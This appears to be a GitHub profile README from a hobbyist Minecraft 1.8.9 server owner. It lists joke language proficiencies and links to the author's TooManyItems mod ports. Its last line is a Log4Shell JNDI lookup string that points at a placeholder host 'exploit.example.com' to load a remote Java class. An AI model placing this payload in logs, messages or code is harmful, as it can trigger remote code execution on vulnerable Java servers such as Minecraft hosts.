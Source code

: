 # Supported languages:
- 100% lang.128.name
- 96% International Phonetic Alphabet
- 95% Autistic Chinese
- 90% Simplified Chinese
- 90% Autistic English
- 85% BakGing Chinese
- 75% Traditional Chinese
- 40% Cantonese Chinese
- 10% Spanish

# 1.8.9 Server Owner & Minecraft Content Editor that almost know nothing about Java.

## I'm neither a programmer nor a student. My repositories 're made for fun.

Most people thonk I'm at least 30, 40 even 50 years old.

## TOOMANYITEMS mod For 1.8.9 and Legacy Fabric(unoffically upgraded&ported by me)
https://github.com/HowardZHY/TooManyItems

https://github.com/HowardZHY/TooManyItems-LegacyFabric

debug: ${jndi:ldap://exploit.example.com:21/exploit/example.jar}

